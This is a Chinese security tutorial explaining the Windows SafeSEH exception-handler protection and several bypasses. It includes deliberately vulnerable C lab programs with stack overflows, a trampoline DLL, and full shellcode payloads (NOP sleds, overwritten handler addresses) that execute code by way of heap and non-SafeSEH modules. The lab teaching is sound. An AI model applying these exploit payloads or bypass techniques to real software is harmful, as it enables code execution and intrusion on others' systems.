# Windows 下 SafeSEH 保护机制详解及其绕过方式 - 先知社区

Windows 下 SafeSEH 保护机制详解及其绕过方式

- - -

通过前面的学习，我们了解到了 GS 保护机制的绕过方法，其中有一种攻击 SEH 异常处理的方法，可以说是与通常栈溢出没什么区别，只不过是覆盖的地址不一样，既然攻击 SEH 这么容易，我们能够想得到，那么开发工程师肯定也想的到，于是出现了 SafeSEH 保护机制：

# 一.SafeSEH 保护机制概述

我们知道通常情况下，异常处理机制都是系统帮我们写好，编译进程序里面的，那我们如何对这些异常处理地址进行保护呢？我们想想是不是可以像前面的 GS 那样，我们在另一个地方保存，然后在调用异常处理的时候进行验证呢？实际上是可以的，这张表我们称之为安全 SEH 表。  
当程序开启了 SafeSEH 保护后，在编译期间，编译器将所有的异常处理地址提取出来，并且编入一张安全 SEH 表中，并且将这张表放到程序的映像里面。当程序调用异常处理函数的时候，将会将函数地址与安全 SEH 表进行匹配，检查调用的异常处理函数是否位于安全 SEH 表中。  
但是这里要注意：SafeSEH 实现需要操作系统和编译器的双重支持，二者缺一都会降低 SafeSEH 的保护能力！

-   那我们来看看操作系统在 SafeSEH 机制中发挥的作用：  
    我们知道异常处理函数的调用是通过`RtlDispatchException()`函数处理实现的，SafeSEH 机制也是从这里开始的。

操作系统在 SafeSEH 机制中发挥的作用：

1.  检查异常处理链是否位于当前程序栈中，如果不在当前栈中，将终止异常处理函数的调用。
2.  检查异常处理函数指针是否位于当前程序栈中，如果指向当前栈中，程序将终止异常处理函数的调用。
3.  在通过前两项检查之后，将通过一个全新的函数`RtlIsValidHandler()`函数来对异常处理函数的有效性进行验证。

那么作为全新的安全校验函数，`RtlIsValidHandler()`函数到底做了哪些工作呢？我们就来详细看看：

```plain
1.首先，检查异常处理函数地址是否位于当前加载模块的内存空间，如果位于当前模块的加载空间，进行下一步检验
2.判断程序是否设置了 IMAGE_DLLCHARACTERISTICS_NO_SEH 标识，如果设置了这个标识，这个程序内的异常将会被忽略，函数直接返回失败，如果没有设置这个标识，将进行下一步检验
3.检测程序中是否含有安全 S.E.H 表，如果包含安全 S.E.H 表，则将当前异常处理函数地址与该表的表项进行匹配
4.判断异常处理函数地址是否位于不可执行页上，如果位于不可执行页上，将会检测 DEP 是否开启，如果未开启，还将判断程序是否允许跳转到加载模块外执行
```

# 二。绕过方式分析

通过以上的分析，是不是感觉 SafeSEH 机制对 SEH 的保护非常完善？实际上看似非常完善，但是总还是有机可乘的，我们就来分析分析那些情况允许异常处理函数执行：

1.  异常处理函数位于加载模块之外，且未开启 DEP
2.  异常处理函数位于加载模块之内，相应模块没有开启 SafeSEH，且相应模块不是 IL
3.  异常处理函数位于加载模块之内，相应模块启用 SafeSEH，该异常处理函数指针位于安全 S.E.H 表中
4.  我们再来分析一下这几种情况的可行性：  
    第一种，位于加载模块之外，这里实际上我们只需要加载模块之外的很短的几条指令就可以，通过跳板跳到我们的 shellcode 执行，即可完成功能。  
    第二种，我们可以使用没有开启 SafeSEH 的模块内的指令作为跳板，然后就可以跳转到我们的 shellcode 执行，也不是一件很困难的事情。  
    第三种，对于与安全 SEH 表的检验我们可以有两种方式：一种是清空安全 SEH 表，造成未启用 SafeSEH 保护机制的假象，骗过操作系统去执行 shellcode，另一种就是将我们的跳板注册到安全 SEH 表中（但是这种方式比较麻烦，而且安全 SEH 表是加密存放的，我们突破的可能性不是很大，暂时不考虑）  
    这些方法都可以突破 SafeSEH，但是我们有没有更简单的突破方法呢？答案是有的：
5.  不攻击 SEH，我们可以考虑其他漏洞去攻击
6.  利用 SEH 的终极特权：SafeSEH 有一个很大的漏洞：就是如果异常处理指针指向堆区，无论检验是否通过，都将执行。

# 三.SafeSEH 保护机制的绕过

既然我们已经对 SafeSEH 保护机制非常了解了，那我们就来尝试突破一下：  
这里我们只研究 SafeSEH 保护机制，为了不受其他保护机制影响，我们将其他保护机制关闭，具体如下：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240225183158-1aa39466-d3c9-1.png)

[](https://xzfile.aliyuncs.com/media/upload/picture/20240225183203-1df00d84-d3c9-1.png)

[](https://xzfile.aliyuncs.com/media/upload/picture/20240225183207-204a50c6-d3c9-1.png)

## 1.通过攻击返回地址来突破 SafeSEH

这种方式就是通过非常普通的栈溢出，即使开启了 GS，我们在上一篇文章中也学习过了，我们可以轻松绕过 GS 来劫持程序执行流程。这种方式的详细介绍在上一篇文章中。

## 2.利用虚函数突破 SafeSEH

通过上一节的学习，我们知道 C++ 的虚函数也可以是我们攻击的对象，而且比较容易，上一篇讲过了，这里就不赘述了，这种方式的详细介绍在上一篇文章中。

## 3.从堆中绕过 SafeSEH

参考链接：[https://www.cnblogs.com/zhang293/p/8996064.html](https://www.cnblogs.com/zhang293/p/8996064.html)  
从这种方法开始，才可以说是我们真正地攻击 SafeSEH 了。还记得 SafeSEH 终极特权吗？就是如果异常处理函数指针位于堆区，即使验证不通过，也会执行，那我们就来尝试一下将我们的 shellcode 写到堆区进行执行：

```plain
#define _CRT_SECURE_NO_WARNINGS
#include <stdio.h>
#include <Windows.h>

void test(char* szBuffer) {
    char str[200]{ 0 };
    strcpy(str, szBuffer);
    int a = 0;
    int b = 1 / a;
}

int main() {

    char* Buffer = (char*)malloc(500);
    _asm int 3;
    HANDLE hFile = CreateFileA(
        "G:\\漏洞原理\\SafeSEH\\Debug\\111.txt", GENERIC_READ, NULL, NULL, OPEN_EXISTING, FILE_ATTRIBUTE_NORMAL, NULL
    );
    DWORD dwReadSize = 0;
    char* MyPayload = (char*)malloc(500);
    memset(MyPayload, 0, 500);
    ReadFile(hFile, MyPayload, 500, &dwReadSize, NULL);
    test(MyPayload);

    return 0;
}
```

我们来观察一下这个程序：在主函数中会使用 int3 触发一个断电，这里用于我们附加到调试器（因为在调试状态下和非调试状态下堆区的状态不同），然后读取文件，调用 test 函数，在 test 函数中存在一个明显的溢出。然后使用除零异常来调用异常处理。  
test 函数中，缓冲区的起始地址：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240225183234-30133e00-d3c9-1.png)

堆中缓冲区的起始地址：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240225183244-35d67690-d3c9-1.png)

异常处理地址：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240225183253-3b5af73a-d3c9-1.png)

我们现在只需要将缓冲区溢出到距离最近的异常处理地址，就可以执行我们的 shellcode。  
设计 payload：

| shellcode | 填充指令 (\\x90) | 堆中 payload 的起始地址 |
| --- | --- | --- |
|     |

payload：

```plain
//------------------------------------------------------------
//-----------       Created with 010 Editor        -----------
//------         www.sweetscape.com/010editor/          ------
//
// File    : G:\漏洞原理\SafeSEH\Debug\111.txt
// Address : 0 (0x0)
// Size    : 408 (0x198)
//------------------------------------------------------------
unsigned char hexData[408] = {
    0xD9, 0xEB, 0x9B, 0xD9, 0x74, 0x24, 0xF4, 0x31,
    0xD2, 0xB2, 0x77, 0x31, 0xC9, 0x64, 0x8B, 0x71,
    0x30, 0x8B, 0x76, 0x0C, 0x8B, 0x76, 0x1C, 0x8B,
    0x46, 0x08, 0x8B, 0x7E, 0x20, 0x8B, 0x36, 0x38,
    0x4F, 0x18, 0x75, 0xF3, 0x59, 0x01, 0xD1, 0xFF,
    0xE1, 0x60, 0x8B, 0x6C, 0x24, 0x24, 0x8B, 0x45,
    0x3C, 0x8B, 0x54, 0x28, 0x78, 0x01, 0xEA, 0x8B,
    0x4A, 0x18, 0x8B, 0x5A, 0x20, 0x01, 0xEB, 0xE3,
    0x34, 0x49, 0x8B, 0x34, 0x8B, 0x01, 0xEE, 0x31,
    0xFF, 0x31, 0xC0, 0xFC, 0xAC, 0x84, 0xC0, 0x74,
    0x07, 0xC1, 0xCF, 0x0D, 0x01, 0xC7, 0xEB, 0xF4,
    0x3B, 0x7C, 0x24, 0x28, 0x75, 0xE1, 0x8B, 0x5A,
    0x24, 0x01, 0xEB, 0x66, 0x8B, 0x0C, 0x4B, 0x8B,
    0x5A, 0x1C, 0x01, 0xEB, 0x8B, 0x04, 0x8B, 0x01,
    0xE8, 0x89, 0x44, 0x24, 0x1C, 0x61, 0xC3, 0xB2,
    0x08, 0x29, 0xD4, 0x89, 0xE5, 0x89, 0xC2, 0x68,
    0x8E, 0x4E, 0x0E, 0xEC, 0x52, 0xE8, 0x9F, 0xFF,
    0xFF, 0xFF, 0x89, 0x45, 0x04, 0xBB, 0x7E, 0xD8,
    0xE2, 0x73, 0x87, 0x1C, 0x24, 0x52, 0xE8, 0x8E,
    0xFF, 0xFF, 0xFF, 0x89, 0x45, 0x08, 0x68, 0x6C,
    0x6C, 0x20, 0x41, 0x68, 0x33, 0x32, 0x2E, 0x64,
    0x68, 0x75, 0x73, 0x65, 0x72, 0x30, 0xDB, 0x88,
    0x5C, 0x24, 0x0A, 0x89, 0xE6, 0x56, 0xFF, 0x55,
    0x04, 0x89, 0xC2, 0x50, 0xBB, 0xA8, 0xA2, 0x4D,
    0xBC, 0x87, 0x1C, 0x24, 0x52, 0xE8, 0x5F, 0xFF,
    0xFF, 0xFF, 0x68, 0x6F, 0x78, 0x58, 0x20, 0x68,
    0x61, 0x67, 0x65, 0x42, 0x68, 0x4D, 0x65, 0x73,
    0x73, 0x31, 0xDB, 0x88, 0x5C, 0x24, 0x0A, 0x89,
    0xE3, 0x68, 0x58, 0x20, 0x20, 0x20, 0x68, 0x57,
    0x64, 0x49, 0x67, 0x31, 0xC9, 0x88, 0x4C, 0x24,
    0x04, 0x89, 0xE1, 0x31, 0xD2, 0x52, 0x53, 0x51,
    0x52, 0xFF, 0xD0, 0x31, 0xC0, 0x50, 0xFF, 0x55,
    0x08, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90,
    0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90,
    0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90,
    0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90,
    0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90,
    0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90,
    0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90,
    0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90,
    0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90,
    0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90,
    0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90,
    0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90,
    0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90,
    0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90,
    0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90,
    0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90,
    0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90,
    0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90,
    0x90, 0x90, 0x90, 0x90, 0xA0, 0x79, 0x68, 0x00 
};
```

这样我们就可以利用 SafeSEH 保护机制在堆区有特权的特性，即可执行 shellcode。

## 4.利用未启用 SafeSEH 的模块突破 SafeSEH

大家回想一下前面我们讲过的 SafeSEH 的校验，如果说异常处理不在本模块中怎么办？如果说该模块未启用 SafeSEH，就可以执行。  
那我们新的攻击思路就出来了：我们可以将异常处理指针指向一个未启用 SafeSEH 的模块，在这个模块中找一些指令，作为跳板地址，是不是就可以跳转到我们的 ShellCode 上执行？  
我们来详细看看这中突破方法：  
首先，我们需要一个未启用 SafeSEH 的模块，这里我们创建一个动态链接库，让程序调用：

```plain
// dllmain.cpp : 定义 DLL 应用程序的入口点。
#include "pch.h"

void jump() {
    __asm {
        pop eax
        pop eax
        retn
    }
}

BOOL APIENTRY DllMain( HMODULE hModule,
                       DWORD  ul_reason_for_call,
                       LPVOID lpReserved
                     )
{
    switch (ul_reason_for_call)
    {
    case DLL_PROCESS_ATTACH:
    case DLL_THREAD_ATTACH:
    case DLL_THREAD_DETACH:
    case DLL_PROCESS_DETACH:
        break;
    }
    return TRUE;
}
```

然后我们编写存在漏洞的程序：

```plain
#define _CRT_SECURE_NO_WARNINGS
#include <stdio.h>
#include <Windows.h>

char MyPayload[500];

DWORD MyException(void) {
    printf("This is My exception!");
    getchar();
    return 1;
}

void test(char* szBuffer) {
    char str[200]{ 0 };
    strcpy(str, szBuffer);
    int zero = 0;
    __try {
        zero = 1 / zero;
    }
    __except (MyException()) {

    }
}

int main() {

    HANDLE Handle = LoadLibraryA("G:\\漏洞原理\\SafeSEH\\Dll1\\Debug\\Dll1.dll");
    char str[200]{ 0 };
    __asm int 3;

    memset(MyPayload, 0, 500);
    HANDLE hFile = CreateFileA(
        "G:\\漏洞原理\\SafeSEH\\Debug\\111.txt", GENERIC_READ, NULL, NULL, OPEN_EXISTING, FILE_ATTRIBUTE_NORMAL, NULL
    );
    DWORD dwReadSize = 0;
    ReadFile(hFile, MyPayload, 500, &dwReadSize, NULL);
    test(MyPayload);

    return 0;
}
```

可以看到这里的 test 函数存在明显的栈溢出漏洞，可以覆盖 SEH 异常处理指针，那我们就来调试一下程序，写出 payload：  
动态链接库中我们写好的跳板指令：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240225183310-4562febc-d3c9-1.png)

`strcpy`函数参数：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240225183319-4af0026c-d3c9-1.png)

test 函数中，str 缓冲区的地址：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240225183325-4ec32e8c-d3c9-1.png)

SEH 链：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240225183334-53bcccae-d3c9-1.png)

距离栈顶最近的 SEH 处理地址：`0x0019FE80`，距离我们的缓冲区`0x19FE80-0x19fdb0 = 208`。  
我们在 208 ~ 212 偏移处写上我们的跳板指令地址`0x560c15ee`，为了保证 ShellCode 不被破环，我们在后面再跟 8 个字节 nop，然后后面跟上我们的 ShellCode。  
Pyaload：

```plain
//------------------------------------------------------------
//-----------       Created with 010 Editor        -----------
//------         www.sweetscape.com/010editor/          ------
//
// File    : G:\漏洞原理\SafeSEH\Debug\111.txt
// Address : 0 (0x0)
// Size    : 481 (0x1E1)
//------------------------------------------------------------
unsigned char hexData[481] = {
    0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90,
    0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90,
    0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90,
    0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90,
    0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90,
    0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90,
    0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90,
    0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90,
    0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90,
    0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90,
    0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90,
    0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90,
    0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90,
    0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90,
    0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90,
    0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90,
    0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90,
    0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90,
    0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90,
    0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90,
    0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90,
    0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90,
    0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90,
    0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90,
    0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90,
    0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90,
    0x90, 0x90, 0x90, 0x90, 0xEE, 0x15, 0x0C, 0x56,
    0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90,
    0xD9, 0xEB, 0x9B, 0xD9, 0x74, 0x24, 0xF4, 0x31,
    0xD2, 0xB2, 0x77, 0x31, 0xC9, 0x64, 0x8B, 0x71,
    0x30, 0x8B, 0x76, 0x0C, 0x8B, 0x76, 0x1C, 0x8B,
    0x46, 0x08, 0x8B, 0x7E, 0x20, 0x8B, 0x36, 0x38,
    0x4F, 0x18, 0x75, 0xF3, 0x59, 0x01, 0xD1, 0xFF,
    0xE1, 0x60, 0x8B, 0x6C, 0x24, 0x24, 0x8B, 0x45,
    0x3C, 0x8B, 0x54, 0x28, 0x78, 0x01, 0xEA, 0x8B,
    0x4A, 0x18, 0x8B, 0x5A, 0x20, 0x01, 0xEB, 0xE3,
    0x34, 0x49, 0x8B, 0x34, 0x8B, 0x01, 0xEE, 0x31,
    0xFF, 0x31, 0xC0, 0xFC, 0xAC, 0x84, 0xC0, 0x74,
    0x07, 0xC1, 0xCF, 0x0D, 0x01, 0xC7, 0xEB, 0xF4,
    0x3B, 0x7C, 0x24, 0x28, 0x75, 0xE1, 0x8B, 0x5A,
    0x24, 0x01, 0xEB, 0x66, 0x8B, 0x0C, 0x4B, 0x8B,
    0x5A, 0x1C, 0x01, 0xEB, 0x8B, 0x04, 0x8B, 0x01,
    0xE8, 0x89, 0x44, 0x24, 0x1C, 0x61, 0xC3, 0xB2,
    0x08, 0x29, 0xD4, 0x89, 0xE5, 0x89, 0xC2, 0x68,
    0x8E, 0x4E, 0x0E, 0xEC, 0x52, 0xE8, 0x9F, 0xFF,
    0xFF, 0xFF, 0x89, 0x45, 0x04, 0xBB, 0x7E, 0xD8,
    0xE2, 0x73, 0x87, 0x1C, 0x24, 0x52, 0xE8, 0x8E,
    0xFF, 0xFF, 0xFF, 0x89, 0x45, 0x08, 0x68, 0x6C,
    0x6C, 0x20, 0x41, 0x68, 0x33, 0x32, 0x2E, 0x64,
    0x68, 0x75, 0x73, 0x65, 0x72, 0x30, 0xDB, 0x88,
    0x5C, 0x24, 0x0A, 0x89, 0xE6, 0x56, 0xFF, 0x55,
    0x04, 0x89, 0xC2, 0x50, 0xBB, 0xA8, 0xA2, 0x4D,
    0xBC, 0x87, 0x1C, 0x24, 0x52, 0xE8, 0x5F, 0xFF,
    0xFF, 0xFF, 0x68, 0x6F, 0x78, 0x58, 0x20, 0x68,
    0x61, 0x67, 0x65, 0x42, 0x68, 0x4D, 0x65, 0x73,
    0x73, 0x31, 0xDB, 0x88, 0x5C, 0x24, 0x0A, 0x89,
    0xE3, 0x68, 0x58, 0x20, 0x20, 0x20, 0x68, 0x57,
    0x64, 0x49, 0x67, 0x31, 0xC9, 0x88, 0x4C, 0x24,
    0x04, 0x89, 0xE1, 0x31, 0xD2, 0x52, 0x53, 0x51,
    0x52, 0xFF, 0xD0, 0x31, 0xC0, 0x50, 0xFF, 0x55,
    0x08 
};
```

我们来调试观察一下：  
可以观察到已经跳转到我们的跳板指令上执行

[](https://xzfile.aliyuncs.com/media/upload/picture/20240225183344-5a24ee96-d3c9-1.png)

然后可以看到成功跳转到我们的 4 个 nop 上执行，紧接着后面就是我们的 ShellCdoe：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240225183351-5e569406-d3c9-1.png)

## 5.利用加载模块之外的地址突破 SafeSEH

我们知道在进程加载的时候，不仅只加载自生 PE 文件，而且会加载其他很多东西，比如 DLL 等，在这之中，就有被 SafeSEH 无视的部分：类型为 Map 的映射文件，也就是说当异常处理指针指向这里面的地址的时候，SafeSEH 保护机制无效（即不做验证）。

[](https://xzfile.aliyuncs.com/media/upload/picture/20240225183400-638b7edc-d3c9-1.png)

就是如图所示的这些类型为 Map 的映射文件，SafeSEH。  
